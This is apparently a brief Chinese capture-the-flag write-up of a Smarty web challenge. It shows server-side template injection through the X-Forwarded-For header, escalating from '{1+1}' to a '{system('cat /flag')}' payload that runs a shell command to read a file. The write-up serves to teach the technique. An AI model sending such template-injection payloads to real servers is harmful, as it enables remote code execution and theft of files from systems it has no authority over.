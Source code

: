 ![[Pasted image 20221210205542.png|500]]

---
首页长这样

![[Pasted image 20221210205615.png|700]]

有两个api，分别通过`/api`和`/xff`访问

同时页脚提示`Build With Smarty！`

可能是要寻找注入点

通过浏览器访问`/api`或`/xff`会出错，抓包发现301响应的`Location`没有加上端口号

![[Pasted image 20221210205905.png|300]]

`/xff`可以通过修改`X-Forwarded-For`请求头来控制响应的内容，推测使用`smarty`来渲染响应，于是尝试对`X-Forwarded-For`进行注入
```php
X-Forwarded-For: 123
```
> 123

```php
X-Forwarded-For: {1+1}
```
> 2

```php
X-Forwarded-For: {system('cat /flag')}
```

![[Pasted image 20221210213629.png]]

#Web #PHP #smarty #SSTI #RCE #HTTP #Header 
